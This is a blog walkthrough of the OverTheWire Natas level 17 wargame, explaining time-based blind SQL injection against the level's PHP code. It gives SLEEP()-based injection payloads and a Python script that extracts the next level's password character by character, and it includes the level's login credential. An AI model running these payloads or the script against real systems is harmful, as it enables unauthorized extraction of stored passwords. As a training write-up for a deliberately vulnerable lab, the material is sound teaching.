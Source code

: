 ```yaml
---
title: "Overthewire Natas 17 Walkthrough"
layout: post
date: 2018-04-10 21:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 17
---
```


## Challenge

![Markdown Image](/assets/images/natas_17_solution/challenge_page.png)

{% highlight php %}
<? 
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
{% endhighlight %}

The goal of this challenge is to exploit a blind SQL injection vulnerability in order the to read the 'password' column for the username natas18, so we obtain the password for the next level. 


## Solution


Reading the source code we can find out that we have control over the username field in the SQL query. We can do a proof of concept that this blind sql injection works by using SLEEP() function; we will know it works if it took a longer time to respone.

{% highlight raw %}
natas18" and sleep(5)#
{% endhighlight %}


Now we can do the same sleep() technique in order to know the characters in the password. So we will send a query for querying some character in the password field, and if it exists a delay will happen, if not nothing will happen. 

{% highlight raw %}
natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
{% endhighlight %}


Now we can automate all of this proccess of getting natas18 password using the following python script.

{% highlight python %}
#!/usr/bin/python
#h15h4m


import requests
from requests.auth import HTTPBasicAuth


http_username = "natas17"
http_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
target =  "http://natas17.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth(http_username, http_password)
chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
password_chars_found = ''
password = ''
r = requests.get(target, auth=http_login)

if  r.status_code != requests.codes.ok:
    print "[-] Check Authentication"
    exit()


print "[!] We are in"



#natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #

for i in chars_to_check:
    payload = 'natas18" AND IF(password LIKE BINARY "%'+ i +'%", SLEEP(5), null) %23'
    try:
        r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
    except:
        print "[+] Timeout: Char Found " + i
        password_chars_found += i

print '[!] Found Chars ' + password_chars_found

#md5 32 chars
for i in range(32):
    for ii in password_chars_found:
        payload = 'natas18" AND IF(password LIKE BINARY "'+ password + ii +'%", SLEEP(5), null) %23'
        try:
            r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
        except:
            print "[+] Timeout: Char Found " + ii
            password += ii
            break


print '[!] PASSWORD = ' + password

#print r.content
{% endhighlight %}
